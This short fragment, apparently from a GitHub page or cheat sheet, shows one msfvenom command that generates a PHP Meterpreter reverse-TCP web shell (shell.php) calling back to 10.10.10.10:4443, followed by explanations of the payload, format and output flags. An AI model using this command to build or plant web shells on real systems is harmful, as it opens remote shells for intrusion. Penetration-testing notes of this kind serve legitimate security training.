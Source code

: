 `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php`

-p, --payload [payload]  Payload to use. Specify a '-' or stdin to use custom payloads


-f, --format  [format]
              Output format (use --help-formats for a list)


-o, --out  [path]
              Save the payload


